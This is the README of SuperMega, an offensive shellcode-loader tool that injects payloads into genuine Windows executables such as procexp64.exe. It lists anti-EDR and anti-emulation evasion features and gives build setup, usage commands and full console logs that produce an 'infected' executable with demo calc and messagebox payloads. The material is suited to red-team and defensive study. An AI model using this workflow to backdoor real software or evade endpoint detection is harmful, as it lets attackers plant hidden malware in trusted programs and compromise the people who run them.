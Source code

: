 # SuperMega - Cordyceps Implementation

> Ophiocordyceps camponoti-balzani is a species of fungus that parasitizes 
> insect hosts of the order Hymenoptera, primarily ants. 
> O. camponoti-balzani infects ants, and eventually kills the hosts after 
> they move to an ideal location for the fungus to spread its spores.


## What

SuperMega is a shellcode loader by injecting it into genuine executables (.exe or .dll). 

The loader shellcode will be tightly integrated into the .exe so that static analysis
has a hard time to spot that the exe is infected. Static analysis will just see
the genuine exe artefacts. 

It also uses modern anti-EDR mechanisms so that the shellcode loading is less likely
to be detected. 

Features:
* Encrypt payload with XOR
* Execution guardrails, so payload is only decrypted on target
* Anti emulation, against AV emulators detecting the payload in memory
* EDR deconditioner, against EDR memory scan
* Keep all original properties of the executable (imports, metadata etc.)
* Very small carrier loader
* Code execution with main function hijacking
* No PEB walk, reuses IAT to execute windows api functions
* Inject data into .rdata for the carrier shellcode
* Patch IAT for missing functions for the carrier

References: 
* [Slides](https://docs.google.com/presentation/d/1_gwd0M49ObHZO5JtrkZl1NPwRKXWVRm_zHTDdGqRl3Q/edit?usp=sharing) HITB2024 BKK "My first and last shellcode loader"
* [Blog Supermega Loader](https://blog.deeb.ch/posts/supermega/)
* [Blog Cordyceps File injection techniques](https://blog.deeb.ch/posts/exe-injection/)


![SuperMega](https://raw.githubusercontent.com/dobin/supermega/master/web-screenshot.png)


## Usage Preparation

SuperMega depends on VS2022 compiler. 

Start `x64 native tools command prompt` to execute `web.py` or `supermega.py`. 

Or alternatively if you want to use an existing shell, e.g. for VSC:

In powershell:
```
> cmd.exe /k "C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\Build\vcvarsall.bat" x64
```

In cmd: 
```
> call "C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\Build\vcvarsall.bat" x64
```

Adjust paths as necessary. This should make `cl.exe` and `Windows.h` available, which are required for 
compilation of the carrier shellcode.


## Usage Web

```
> ./web.py
```

Browse to `http://localhost:5001".


## Usage Command LIne

Example to inject `calc64.exe` shellcode into `7z.exe`:

```
PS C:\Users\dobin\Repos\SuperMega> cmd.exe /k "C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\Build\vcvarsall.bat" x64
**********************************************************************
** Visual Studio 2022 Developer Command Prompt v17.12.4
** Copyright (c) 2022 Microsoft Corporation
**********************************************************************
[vcvarsall.bat] Environment initialized for: 'x64'

C:\Users\dobin\Repos\SuperMega>python.exe supermega.py
(helper.py       ) Write project to: projects/commandline/project.pickle
(project.py      ) -[ Cleanup project: commandline
(payload.py      ) -[ Payload: data/binary/shellcodes/calc64.bin
(payload.py      )     Size: 272 bytes
(templater.py    ) -[ Carrier create Template: projects/commandline/main.c
(templater.py    )     Carrier: alloc_rw_rx
(templater.py    )     Carrier: Code into: .text
(templater.py    )     Carrier: Decoder: xor_2
(templater.py    )     Carrier: Invoker: backdoor Entrypoint
(templater.py    )     Carrier AntiEmulation: sirallocalot
(templater.py    )     Carrier Guardrail: none
(templater.py    )     Carrier Decoy: none
(compiler.py     ) -[ Carrier: Compile C to ASM
(compiler.py     )     Carrier: projects/commandline/main.c -> projects/commandline/main.asm
(helper.py       )    > Run process: cl.exe /c /FA /GS- /Faprojects/commandline/ projects/commandline/main.c
(assembler.py    ) -[ Carrier: ASM to EXE
(assembler.py    )     Carrier: projects/commandline/main.asm -> projects/commandline/main.exe
(helper.py       )    > Run process: ml64.exe projects/commandline/main.asm /link /OUT:projects/commandline/main.exe /entry:AlignRSP
(assembler.py    )     Carrier Size: 590
(injector.py     ) -[ Injecting Carrier
(injector.py     )     Injectable: data/binary/exes/procexp64.exe -> projects/commandline/procexp64.infected.exe
(injector.py     )     Checking if IAT entries required by carrier are available
(injector.py     )     IAT entries missing: 0
(injector.py     )     Inject: Write Carrier to 0x71C8D (0x7108D)
(injector.py     )     Backdoor function at entrypoint (0xE1D78)
(injector.py     )     Inject Carrier data into injectable .rdata/.text
(injector.py     )     Patch Carrier code to reference the injected data
(injector.py     ) -[ Write to file: projects/commandline/procexp64.infected.exe
```

To inject shellcode `messagebox.bin` into injectable `procexp64.exe` with carrier `alloc_rw_rx` and decoder `xor_1`, where: 
* shellcode `messagebox.bin`: `data/binary/shellcodes/messagebox.bin`
* injectable `procexp64.exe`: `data/binary/exes/procexp64.exe`
* carrier `alloc_rw_rx`: `data/source/carrier/alloc_rw_rx/template.c`
* decoder `xor_1`: `data/source/decoder/xor_1.c`

```
> python.exe supermega.py --shellcode messagebox.bin --inject procexp64.exe --carrier alloc_rw_rx --decoder xor_1 
(helper.py       ) Write project to: projects/commandline/project.pickle
(project.py      ) -[ Cleanup project: commandline
(payload.py      ) -[ Payload: data/binary/shellcodes/messagebox.bin
(payload.py      )     Size: 433 bytes
(templater.py    ) -[ Carrier create Template: projects/commandline/main.c
(templater.py    )     Carrier: alloc_rw_rx
(templater.py    )     Carrier: Code into: .text
(templater.py    )     Carrier: Decoder: xor_1
(templater.py    )     Carrier: Invoker: backdoor Entrypoint
(templater.py    )     Carrier AntiEmulation: sirallocalot
(templater.py    )     Carrier Guardrail: none
(templater.py    )     Carrier Decoy: none
(compiler.py     ) -[ Carrier: Compile C to ASM
(compiler.py     )     Carrier: projects/commandline/main.c -> projects/commandline/main.asm
(helper.py       )    > Run process: cl.exe /c /FA /GS- /Faprojects/commandline/ projects/commandline/main.c
(assembler.py    ) -[ Carrier: ASM to EXE
(assembler.py    )     Carrier: projects/commandline/main.asm -> projects/commandline/main.exe
(helper.py       )    > Run process: ml64.exe projects/commandline/main.asm /link /OUT:projects/commandline/main.exe /entry:AlignRSP
(assembler.py    )     Carrier Size: 576
(injector.py     ) -[ Injecting Carrier
(injector.py     )     Injectable: data/binary/exes/procexp64.exe -> projects/commandline/procexp64.infected.exe
(injector.py     )     Checking if IAT entries required by carrier are available
(injector.py     )     IAT entries missing: 0
(injector.py     )     Inject: Write Carrier to 0x71C43 (0x71043)
(injector.py     )     Backdoor function at entrypoint (0xE1D78)
(injector.py     )     Inject Carrier data into injectable .rdata/.text
(injector.py     )     Patch Carrier code to reference the injected data
(injector.py     ) -[ Write to file: projects/commandline/procexp64.infected.exe

> C:\Users\dobin\Repos\SuperMega>.\projects\commandline\procexp64.infected.exe
```


## Directories

* `data/binary/shellcodes`: Input: Shellcodes we want to use as input (payload)
* `data/binary/exes/`: Input: Nonmalicious EXE files we inject into
* `data/source/carrier`: Input: Carrier C templates
* `projects/<projectname>`: output: Project directory with generated files, including infected exe
* `projects/default`: output: Project directory with all files from web
* `projects/commandline`: output: Project directory with all files from commandline


## Installation

VS2022 compilers.

Required:
* `ml64.exe`
* `cl.exe`

Optional: 
* `r2.exe`

And the python packages:
```
> pip.exe install -r requirements.txt
```


### VS2022 Components

A list of packages/components which may be required for Visual Studio 2022:
* C++ 2022 Redistributable Update
* C++ Build Insights
* C++ CMake tools for windows
* C++ /CLI support for v143 build tools (lastest)
* MSBuild
* MSVC v133 - VS 2002 C++ x64/x86 build tools (latest)
* C++ ATL for latest v143 build tools (x86 & x64)
* C++ MFC for latest v143 build tools (x86 & x64)
* Windows 11 SDK
